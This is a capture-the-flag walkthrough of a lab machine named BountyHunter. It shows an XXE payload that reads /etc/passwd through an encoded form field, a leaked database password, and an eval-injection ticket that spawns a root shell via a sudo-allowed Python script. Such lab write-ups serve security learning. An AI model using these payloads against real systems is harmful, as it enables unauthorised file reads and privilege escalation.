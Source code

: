 1, enumerate the ports and services
22/tcp ssh
80/tcp http

2,check the web pages and enumerate the web contents
* /log_submit.php : In this page, we can get some information : there is no database and the output was on the screen. So let's try some SSTI vulners.
* By enumerate the web-content, we can get something useful
```
resources               [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 18ms]
```
And it is lucky that we can get some messages:
```
Tasks:

[ ] Disable 'test' account on portal and switch to hashed password. Disable nopass.
[X] Write tracker submit script
[ ] Connect tracker submit script to the database
[X] Fix developer group permissions
```

Then we can get an important hint:
`[ ] Disable 'test' account Disable nopass` 
That means there would be a test account and no-password!!!!

So let's try to find them!

But we did not find ant portal, so we guess would be a sub-domain as a portal.
unlucky, it would be a rabbit hole.

So let's come back to the only service
```
data=PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT4xMTwvdGl0bGU%2BCgkJPGN3ZT4xMTwvY3dlPgoJCTxjdnNzPjExPC9jdnNzPgoJCTxyZXdhcmQ%2BMTE8L3Jld2FyZD4KCQk8L2J1Z3JlcG9ydD4%3D

url decode
base64 decode
<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>11</title>
		<cwe>11</cwe>
		<cvss>11</cvss>
		<reward>11</reward>
		</bugreport>
```
This is a message in XML format

So let's try some XXE File Read vulners and just try these blocks.

This is a example payload.
```
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```
`The first line is very similar to what is sent in the POST for BountyHunter, and the last line is the XML data itself. The middle lines are defining an entity which includes the variable &file which is the contents of the /etc/passwd file. This allows the user to send in the contents of files they can’t read as input, and if that input is displayed back, then the exploit allows for file read`

This would be our payload
```
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT bar ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>CWE</cwe>
		<cvss>9.8</cvss>
		<reward>1,000,000</reward>
		</bugreport>

We need to base64 encode and then url encode.
```

Then we can get /etc/passwd file
```
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
development:x:1000:1000:Development:/home/development:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```
There is a essential account: development

So let's try to enumerate the configuration files.(db.php, config.php)
```
db.php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```
Then we get the credit, so let's try to use ssh to connect it.

4, get the root shell
From /home/development
we get a attractive txt file contract.txt
```
I'll be out of the office this week but please make sure that our contract with Skytrain Inc gets completed.

This has been our first job since the "rm -rf" incident and we can't mess this up. Whenever one of you gets on please have a look at the internal tool they sent over. There have been a handful of tickets submitted that have been failing validation and I need you to figure out why.

I set up the permissions for you to test this. Good luck.
```
From that, user development has some permissions on some special apps.

So we check the `sudo -l`
```
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```
Then we can check this pressions.
`-r-xr--r-- 1 root root 1471 Jul 22  2021 /opt/skytrain_inc/ticketValidator.py`

And the file path `/opt/skytrain_inc` has a folder where specific credentials are stored and ticketValidator.py.

Let's check the source code of ticketValidator.py to find some vulners and try to exec it.

```
Eval Exploit
Conditions
The risky call in the Python script is eval, which runs input as Python code. Based on the invalid tickets, it looks like it’s using the eval to do some math in a string. But I can make it do much more than that.

I’ll need to construct a ticket that gets to that point in the script:

First row starts with “”# Skytrain Inc”
Second row starts with “## Ticket to “
There needs to be a line that starts with “__Ticket Code:__”
The line after the ticket code line must start with “**”
The text after the “**” until the first “+” must be an int that when divided by 7 has a remainder of 4.
If all those conditions are met, then the line (with “**” removed) will be passed to eval.
```

So the payload could be created
```
# Skytrain Inc
## Ticket to Bridgeport
__Ticket Code:__
**32+110+43**
##Issued: 2021/04/06
#End Ticket

Then we get the response:
Please enter the path to the ticket file.
/dev/shm/tick.md
Destination: Bridgeport
Valid ticket.
```

The simplest way to inject into eval is to import the os modules and call system. In an eval injection, you do the import slightly differently

`__import__('os').system('[command]')`

So the payload we get:
```
# Skytrain Inc
## Ticket to Bridgeport
__Ticket Code:__
**32+110+43+__import__('os').system('bash')**
##Issued: 2021/04/06
#End Ticket
```
